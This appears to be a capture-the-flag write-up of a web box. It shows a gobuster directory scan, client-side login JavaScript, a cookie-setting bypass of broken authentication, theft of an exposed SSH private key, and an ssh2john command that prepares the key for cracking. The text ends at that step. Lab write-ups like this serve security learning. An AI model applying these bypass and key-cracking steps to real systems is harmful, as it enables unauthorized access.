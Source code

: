> `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://xxx.xxx.xxx.xxx`

Interesting folders found:

```python
/img                  (Status: 301) [Size: 0] [--> img/]
/downloads            (Status: 301) [Size: 0] [--> downloads/]
/aboutus              (Status: 301) [Size: 0] [--> aboutus/]  
/admin                (Status: 301) [Size: 42] [--> /admin/]  
/css                  (Status: 301) [Size: 0] [--> css/] 
```

Also see: [gobuster.log](gobuster.log)

## Gaining Access

Started by looking at `/admin/` page to see if there was anything exploitable.

### Unprivileged Access

Javascript on the `/admin/` page has a simple check (note the `else` clause):

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Basically, if the `SessionToken` cookie is set, that is all you need to be "logged in". This is the [OWASP definition of Broken Authentication](https://owasp.org/www-project-top-ten/2017/A2_2017-Broken_Authentication).

To get around this, we go into Developer Tools (<kbd>F12</kbd>) to execute:

```javascript
Cookies.set("SessionToken", "")
```

Then, refresh the page. You will be logged in and will see an exposed SSH private key. Capture that (to `./james_id_rsa`). We need to run:

> `ssh2john.py ./james_id_rsa > ./james_id_rsa.hash`
